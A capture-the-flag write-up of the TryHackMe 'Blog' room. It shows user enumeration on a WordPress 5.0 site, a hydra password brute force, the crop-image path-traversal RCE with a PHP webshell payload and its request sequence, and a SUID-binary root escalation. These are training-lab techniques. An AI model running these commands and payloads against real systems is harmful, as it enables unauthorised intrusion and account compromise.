


| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Blog ||

Blog is a medium Linux boot2root built around Billy Joel's home WordPress site. There is no guided path here, just a box, two flags, and a warning in the brief that you can "fall down the rabbit hole." The intended route is a clean web-to-root chain: fingerprint an outdated WordPress, brute a weak author password, abuse the WordPress 5.0 crop-image path traversal for remote code execution, and then ride a custom SUID binary straight to root. It sits next to my other web-plus-privesc write-ups like the [Battery](/post/thm-room-battery/) API box and the brute-force heavy [Checkmate](/post/thm-room-checkmate/).

Everything below runs from my Mac over the THM VPN. The box answered directly, so there was no need for the AttackBox: nmap, hydra, curl, and a short Python exploit all ran locally. The brief tells you to map `MACHINE_IP blog.thm`, but I avoided touching `/etc/hosts` entirely by forcing the `Host: blog.thm` header with `curl --resolve` and inside the exploit, which keeps the whole solve sudo-free.

## Task 1: fingerprint the WordPress and enumerate users

A quick connect scan shows SSH, Apache, and Samba, with the web server already announcing the target:

```text
  # nmap -sT -sV -sC -p22,80,139,445 10.80.179.243
  22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu
  80/tcp  open  http     Apache/2.4.29 (Ubuntu)
  |_http-generator: WordPress 5.0
  |_http-title: Billy Joel's IT Blog
  139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu
  445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu
```

That `http-generator` line answers two of the five questions immediately: the CMS is **WordPress**, and the version is **5.0**. WordPress 5.0.0 is the exact release that shipped the crop-image RCE, so the version is not trivia, it is the whole plan.

Users come straight out of the REST API, which WordPress 5.0 exposes without authentication:



```text
  # curl -s blog.thm/wp-json/wp/v2/users
  bjoel  (Billy Joel)      id 1
  kwheel (Karen Wheeler)   id 3
```

Two authors: `bjoel` and `kwheel`. The crop-image exploit needs an account with at least author privileges, so either will do if the password is weak.

Before chasing the web path I checked the Samba shares, because the brief hints at "weird things" on the laptop. The `BillySMB` share advertises anonymous read/write in `smb-enum-shares`, but every attempt to list or spider it as the guest account returns `STATUS_ACCESS_DENIED`, and the share is empty. That is the rabbit hole the room warns about. SMB is a decoy here; the real foothold is the WordPress login.



## Task 1: brute the author password

The box is self-hosted on a home computer, so a weak password is a fair bet. With no `wpscan` on my Mac, a plain `hydra` run against `wp-login.php` does the same job. The trick is the fail condition: a wrong password returns the login page containing the word "incorrect", so `F=incorrect` marks failures and hydra stops on the first success.

```text
  # hydra -l kwheel -P rockyou.txt -t 16 -f 10.80.179.243 \
  #   http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:F=incorrect"
  [80][http-post-form] login: kwheel   password: cutiepie1
```

`kwheel : cutiepie1`. A couple of hydra gotchas cost me time and are worth writing down. A literal colon inside a header value (for example `H=Host: blog.thm`) collides with hydra's own `:` field separator and throws "optional parameters must have the format X=value"; I dropped the custom header and targeted the IP directly, since the box serves the same WordPress on the default vhost. And piping hydra through `tail` swallowed the result line on the first run, so the clean approach is `-o outfile` and reading the file, never a pipe.

Karen is an author, which is exactly the privilege level the next step needs.

## Task 1: crop-image path traversal to a webshell

The WordPress 5.0 RCE (CVE-2019-8942 plus CVE-2019-8943) abuses the image cropper. An author uploads an image, then edits its `_wp_attached_file` metadata to include a path traversal. When the crop function writes the resized copy, it follows that poisoned path and drops the file outside the uploads directory, into the active theme folder. A second request creates a post whose `_wp_page_template` points at that dropped `cropped-*.jpg`, and because the file is really a JPEG with PHP appended, viewing the post executes the embedded code.

No Metasploit on my Mac, so I ported the module's exact request sequence into a short Python script that forces the `Host: blog.thm` header and talks to the IP, with the PHP payload `<?=`$_GET[0]`;?>` baked into the image tail (it runs `$_GET['0']` as a shell command through backticks). The ordered chain the script performs:

```text
  1. POST /wp-login.php                      login as kwheel
  2. GET  /                                  read the active theme from the page
  3. POST /wp-admin/async-upload.php         upload evil.jpg, note attachment id
  4. POST admin-ajax.php action=image-editor get the scaled filename
  5. POST /wp-admin/post.php editpost        poison _wp_attached_file with ?/../../../../themes/<theme>/<shell>
  6. POST admin-ajax.php action=crop-image   crop writes cropped-<shell>.jpg into the theme dir
  7. POST post.php editpost                  new post, _wp_page_template = cropped-<shell>.jpg
  8. GET  /?p=<post_id>&0=<command>          render the post, execute the command
```

One detail that matters: the exploit reads the live theme off the home page rather than assuming one. On this box the active theme is **twentytwenty**, not the `twentynineteen` the original module hardcodes, so a blind exploit that writes into the wrong theme directory silently fails. Letting the script detect it keeps the traversal pointed at a directory WordPress will actually include.

The payload lands as `www-data`, and the first thing it reveals is that the easy flag is a trap:

```text
  # /?p=41&0=cat /home/bjoel/user.txt
  You won't find what you're looking for here.
  TRY HARDER
```

## Task 1: find the real user.txt, then root via a SUID binary

So `user.txt` is not in Billy's home. The question even hints "not where you think", and its answer mask is `/*****/***`, five then three characters. A look around turns up a mounted removable disk:

```text
  # /?p=41&0=ls -la /media
  drwx------  2 bjoel bjoel  /media/usb
```

`user.txt` lives on **/media/usb**, which fits the mask exactly. The directory is `bjoel`-only `700`, so `www-data` cannot read it yet, and `root.txt` under `/root` is off limits too. Both flags need a privilege escalation.

Enumerating SUID binaries surfaces one that does not belong:

```text
  # find / -perm -4000 -type f 2>/dev/null | grep -v /snap/
  ...
  /usr/sbin/checker
```

`strings` on it tells the whole story: it imports `getenv`, `setuid`, and `system`, and carries the literals `admin`, `/bin/bash`, and `Not an Admin`. The logic is the classic trap credited to Sq00ky in the brief: if the environment variable `admin` is set, the binary calls `setuid(0)` and spawns a shell, otherwise it prints "Not an Admin". Because `system("/bin/bash")` reads commands from standard input, I do not need an interactive terminal; I can pipe commands straight into it, already running as root:



```text
  # /?p=41&0=printf 'cat /media/usb/user.txt; cat /root/root.txt' | admin=1 /usr/sbin/checker
  uid=0(root) gid=33(www-data) groups=33(www-data)
  [user.txt @ /media/usb]  ********... (redacted, 32 hex)
  [root.txt @ /root]       9a0b2b61... (redacted, 32 hex)
```

Setting `admin=1` flips the check, `checker` drops to `uid=0`, and feeding it `cat` commands reads both flags in a single request. The flag values are redacted above; both are 32-character hashes.

| Question | Answer |
|---|---|
| CMS | `WordPress` |
| CMS version | `5.0` |
| user.txt location | `/media/usb` |
| user.txt | (32-hex flag on /media/usb) |
| root.txt | (32-hex flag in /root) |

## Two takeaways

First, an outdated CMS version is a plan, not a footnote. WordPress 5.0.0 is the one release where the crop-image path traversal works, so reading `http-generator: WordPress 5.0` told me the entire foothold before I touched a single form. The matching lesson on a real target is to pin the exact build, not just the product, because a public exploit usually lives in one narrow version window, and the version string in a `generator` meta tag or an asset query parameter often hands it to you for free.

Second, read the mask and chase the hint before you trust the obvious file. The decoy `user.txt` in Billy's home and the empty anonymous SMB share are both there to burn time, while the real flag sits on a mounted USB that the answer mask (`/*****/***`) quietly describes. When a box ships a troll file, the format of the expected answer is often a better compass than the first path you find, and the privilege escalation (here a SUID binary gated on an environment variable) is what actually unlocks the data the decoys were hiding.

Room solved 100%: 1 task, 5 answers.
